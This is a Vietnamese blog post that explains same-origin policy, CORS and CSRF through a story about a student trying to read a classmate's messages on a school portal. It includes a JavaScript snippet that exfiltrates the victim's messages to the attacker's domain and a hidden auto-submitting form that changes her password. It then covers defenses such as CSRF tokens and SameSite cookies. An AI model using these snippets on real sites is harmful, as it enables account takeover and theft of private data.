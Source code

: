 ﻿---
url: [/post/sop-cors-va-csrf-khi-long-tin-bi-loi-dung]
title: "SOP, CORS và CSRF – Khi lòng tin bị lợi dụng"
$attribute: PostMetadata(Id = 1, Title = "SOP, CORS và CSRF – Khi lòng tin bị lợi dụng", Category = "Bảo mật", LastModified = "08-10-2025")
$layout: BlogContentLayout
---

Vào một buổi chiều cuối thu, gió heo may len lỏi qua kẽ lá mang theo chút se lạnh 
của cơn mưa đầu mùa. M tựa vào lan can tầng hai, mắt vô định 
dõi xuống khoảng sân quen thuộc. Ở góc ghế đá cũ, N đang cúi đầu nhìn điện thoại, 
mái tóc đen ngang vai rủ xuống che nửa khuôn mặt. 

Họ quen biết nhau từ năm lớp mười trong một buổi học nhóm. N khi ấy đang loay hoay 
với một bài toán khó. M nhìn thấy, ngập ngừng một chút rồi lén đẩy tờ giấy ghi lời giải về phía cô.  
Cô ngẩng lên, khẽ cười: "Cảm ơn nhé, cứu một mạng người đấy." 
Nụ cười ấy đã khiến trái tim cậu loạn nhịp. 

Những tháng ngày sau đó, qua những cuộc trò chuyện vu vơ ở căn tin, 
những lần chạm mắt ngắn ngủi trong giờ ra chơi, tình cảm của M lớn lên lặng lẽ, 
không lời tỏ bày, cậu dần chú ý đến từng cử chỉ nhỏ. 
Nó trở thành một thói quen, một phần trong nhịp sống của M mà chính cậu cũng không nhận ra. 

Nhưng chiều nay khác. Khóe môi N khẽ cong, ánh mắt sáng lên vì điều gì đó trên 
màn hình. M nheo mắt nhìn, và một cái tên hiện ra — D, người được nhiều bạn trong 
khối nhắc đến với sự ngưỡng mộ. Cậu đứng lặng. Họ đang trò chuyện với nhau qua 
*Hệ thống học tập trực tuyến* (`school-learning.edu.vn`) mà nhà trường vừa triển khai. 
Không cần biết họ đang nói gì, chỉ cần thấy nụ cười ấy thôi M cũng đã hiểu rõ mọi chuyện.

Đêm về, hình ảnh N cười với D cứ lặp lại trong đầu M như một đoạn phim không thể tắt. 
Cậu tự hỏi họ đang nói gì, họ thân đến mức nào. Và rồi, giữa dòng suy nghĩ 
hỗn loạn ấy, một ý tưởng nảy lên, một ý tưởng liều lĩnh, trẻ con và đầy sai trái: đọc trộm tin nhắn của N.

# Kế hoạch hoàn hảo   

Biết N mê xem phim, M đã thức trắng một đêm dựng một trang web xem phim 
với giao diện rất bắt mắt nhờ chút kiến thức ReactJS góp nhặt trên mạng. 
Rồi M nhét vào đó một đoạn JavaScript:
```javascript
fetch('https://school-learning.edu.vn/api/private-messages/N', {
  method: 'GET',
  credentials: 'include' // Gửi cả cookie của N
}).then(response => response.json())
  .then(data => {
    // Gửi tin nhắn lấy được về server của M
    fetch('https://phimhay.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
```

Ý tưởng của M rất đơn giản:
- Khi N truy cập vào trang web xem phim của M, đoạn mã JavaScript này sẽ chạy.
- Đoạn mã gửi một request đến school-learning.edu.vn để lấy tin nhắn 
(request này có kèm theo cookie đăng nhập của N). Server sẽ nghĩ đây là yêu cầu hợp lệ từ 
chính N, và dữ liệu sẽ được chuyển về tay M.
- Sau khi lấy được dữ liệu, nó gửi toàn bộ tin nhắn về server do M kiểm soát.

Sáng hôm sau, M hồi hộp mời N vào trang web: 
"Trang này có nhiều phim hay lắm, cậu thử xem đi!"

N mỉm cười cảm ơn và mở trang. M nín thở chờ đợi.

Nhưng rồi, trình duyệt hiện lên thông báo lỗi đỏ chói:

`
Access to fetch at 'https://school-learning.edu.vn/api/private-messages/N' 
from origin 'https://phimhay.com' has been blocked by CORS policy: 
No 'Access-Control-Allow-Origin' header is present on the requested resource.
`

Kế hoạch tan vỡ. M ngồi sụp xuống, nỗi thất vọng dâng trào như cơn mưa mùa thu bất chợt.

# Same-Origin Policy (SOP) - Bức tường thành của trình duyệt

Bực tức vì thất bại, M tìm đến K than thở, một đại cao thủ về bảo mật của trường.

Ngồi bên tách trà nóng trong căn phòng ký túc xá chật hẹp, K lắng nghe rồi cười nhẹ: 
"Cái này là do Same-Origin Policy (SOP). Nó là chính sách bảo mật của trình duyệt, 
ngăn không cho các script từ một origin đọc tài nguyên từ origin khác để 
tránh rò rỉ dữ liệu nhạy cảm."

K vẽ sơ đồ đơn giản trên tờ giấy nháp: "Một origin được xác định bởi 3 yếu tố:"
`Scheme (Giao thức) + Domain (Tên miền) + Port (Cổng) = Origin`

Ví dụ:

- https://phimhay.com và https://school-learning.edu.vn khác origin vì domain khác nhau
- http://phimhay.com và https://phimhay.com cũng khác origin vì scheme khác nhau
- https://phimhay.com:80 và https://phimhay.com:3000 cũng khác origin vì port khác nhau


"SOP đã ngăn đoạn script từ phimhay.com của mày đọc được response từ 
`school-learning.edu.vn`, dù request đó đã được gửi đi thành công."

# CORS - Cánh cổng có kiểm soát

M cau mày: "Vậy làm sao các trang web gọi API từ domain khác? Như trang phim của 
tao lấy dữ liệu từ TMDB?" K gật đầu, giọng đều đều như dòng suối chảy: 
"Đó là nhờ CORS – Cross-Origin Resource Sharing."

"CORS là một cơ chế cho phép server tự nguyện nói với trình duyệt rằng: 
'Tôi đồng ý cho origin kia truy cập tài nguyên của mình'.

Khi trình duyệt thấy script từ `phimhay.com` gọi API đến `school-learning.edu.vn`, 
nó sẽ gửi kèm một header `Origin: https://phimhay.com`. 
Nếu server đồng ý, nó trả response với Header:
```http
Access-Control-Allow-Origin: https://phimhay.com
Access-Control-Allow-Credentials: true
```

Chỉ lúc đó, trình duyệt mới cho phép đọc dữ liệu. 
"Nhưng server trường học sẽ không bao giờ cho phép domain lạ như của mày," 
K kết luận, khiến M thở dài một cách đầy thất vọng.

# CSRF - Cơ hội cuối cùng

M thở dài, nhung rồi ánh mắt lóe lên khi nhớ ra một điều: 
"Dù SOP ngăn đọc dữ liệu, nhưng tao vẫn có thể gửi request để yêu cầu server
thực hiện hành động."

K mỉm cười: "Mày nói đúng rồi đấy. Đây chính là cơ sở cho kĩ thuật tấn công 
CSRF - Cross-Site Request Forgery."

M hơi nghiêng đầu, nhíu mày, giọng lộ vẻ bối rối: 
"Mày nói rõ hơn được không?"

K gật đầu, giải thích chậm rãi: 
"Hãy tưởng tượng như ai đó giả mạo chữ ký của mày để ký một tờ giấy quan trọng 
thay mày vậy. Trang web xấu sẽ lợi dụng việc trình duyệt tự động gửi kèm cookie 
của nạn nhân đến một site khác, rồi thực hiện hành động thay mặt họ mà họ không hề hay biết." 

"Ví dụ, Nếu hệ thống trường có endpoint đổi mật khẩu đơn giản, 
mày có thể nhúng này form ẩn vào trang web của mình:"
```markup
<!-- Trên web xem phim https://phimhay.com của M -->
<form id="csrfForm" action="https://school-learning.edu.vn/change-password" method="POST" style="display:none">
    <input type="password" name="new_password" value="hacked123">
    <input type="password" name="confirm_password" value="hacked123">
</form>
<script>
    // Tự động submit form khi N truy cập trang
    document.getElementById('csrfForm').submit();
</script>
```

K giải thích tiếp: "Chỉ cần N truy cập trang web của mày, trình duyệt sẽ ngay 
lập tức gửi request đổi mật khẩu."

M mắt sáng lên, nhưng K lắc đầu: "Đừng vội mừng! Các trang web hiện đại đều có cơ chế phòng chống CSRF. 
Phổ biến nhất là CSRF Token - một chuỗi ngẫu nhiên ẩn trong form:

```markup
<!-- Form trên school-learning.edu.vn -->
<form action="https://school-learning.edu.vn/change-password" method="POST">
    <input type="password" name="new_password">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6_random_string">
</form>
```


Server kiểm tra token này khi request được gửi đến và request thiếu token hợp lệ sẽ 
bị từ chối ngay. Và cũng do SOP nên mày cũng đừng mong đọc được token này. 

K giải thích thêm: "Ngoài token, các website còn có những cơ chế bảo vệ khác như: 
- Kiểm tra header Origin và Referer: Server sẽ kiểm tra xem request có thực sự 
đến từ domain của chính nó không.
- SameSite Cookie: Thuộc tính cookie có thể được đặt là `SameSite=Strict` 
hoặc `SameSite=Lax` để trình duyệt không gửi cookie trong các request chéo site.

M im lặng, nhận ra kế hoạch của mình chỉ là ảo mộng. 
Không lâu sau, hệ thống trường học gửi cảnh báo bảo mật về request bất thường 
trên tài khoản của N. Buổi chiều hôm ấy, N tìm đến M, cô nhìn cậu với ánh mắt cô lạnh lẽo như băng. 
"Có phải cậu đứng sau trang web xem phim đó không?" - N hỏi. 

M đứng lặng, mặt tái mét, không một lời biện minh. Lúc chiếc lá vàng cuối cùng rơi xuống 
sân cũng là lúc N quay lưng bỏ đi. M đứng đó, lòng đầy ân hận, nhận ra rằng những 
mánh khóe và thủ đoạn, dù tinh vi đến đâu cũng sẽ bị phơi bày.